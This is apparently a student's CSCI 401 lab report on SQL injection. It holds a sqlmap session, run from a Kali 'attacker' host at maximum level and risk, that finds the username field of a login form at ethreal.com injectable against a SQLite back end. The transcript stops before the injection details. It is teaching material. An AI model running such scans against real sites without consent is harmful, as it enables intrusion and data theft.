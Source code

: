 # sqlmapSyed Farabi and Anthony
SQLMap
March 2, 2025
CSCI 401

Lab Tasks
**** Hint: Use the output of sqlmap to find the answers
Vulnerability
Was the site vulnerable to SQL injection? If so, what risks were identified? 

SQL Map REPORT

┌──(kali㉿attacker)-[~]
└─$ sqlmap --wizard
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:39:38 /2025-03-14/

[03:39:38] [INFO] starting wizard interface
Please enter full target URL (-u): https://ethreal.com/backend/login
POST data (--data) [Enter for None]: 

[03:40:40] [WARNING] no GET and/or POST parameter(s) found for testing (e.g. GET parameter 'id' in 'http://www.site.com/vuln.php?id=1'). Will search for forms
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 3
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Intermediate
[3] All
> 3

sqlmap is running, please wait..

[1/1] Form:
POST https://ethreal.com/backend/login
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): username=&password=
do you want to fill blank fields with random values? [Y/n] Y
got a 302 redirect to 'https://ethreal.com/backend/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 484 HTTP(s) requests: